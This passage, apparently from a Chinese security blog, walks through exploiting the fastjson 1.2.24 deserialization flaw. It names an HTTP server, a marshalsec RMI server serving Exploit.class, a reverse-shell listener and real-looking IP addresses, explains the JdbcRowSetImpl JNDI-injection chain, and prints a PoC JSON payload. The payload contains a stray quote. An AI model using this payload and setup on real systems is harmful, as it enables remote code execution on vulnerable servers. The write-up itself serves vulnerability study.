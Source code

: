 103.200.114.10

开启http服务

![image-20201030102411715](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030102411715.png)

![image-20201030102419557](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201030102419557.png)



103.200.114.10借助marshalsec启动RMI服务器，监听9999端口，并指定加载reference类Exploit.class

![image-20201030102929369](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030102929369.png)

像119.45.55.187:8090发送数据包

![image-20201030103902317](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030103902317.png)

![image-20201030104226737](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030104226737.png)

http端口

![image-20201030103924961](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030103924961.png)

RMI端口

![image-20201030103944495](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030103944495.png)

反弹shell监听端口

![image-20201030104013277](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201030104013277.png)

## 0X03fastjson1.2.24分析

第一版（猜测1.2.22-1.2.24）的利用原理比较清晰，因为fastjson在处理以@type形式传入的类的时候，会默认调用该类的共有set\get\is函数，因此我们在寻找利用类的时候思路如下：

1、类的成员变量我们可以控制；

2、想办法在调用类的某个set\get\is函数的时候造成命令执行。

于是便找到了JdbcRowSetImpl类，该类在setAutoCommit函数中会对成员变量dataSourceName进行lookup，标准的jndi注入利用。

fastjson反序列化漏洞的poc：

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit",""autoCommit":true}
```

调用栈

Exec:620,Runtime //命令执行

Lookup:417,InitalContext /jndi lookup函数通过rmi或者ldap获取恶意类

setAutoCommit:4067,JdbcRowSetImpl 通过setAutoCommit从而在后面触发了lookup函数
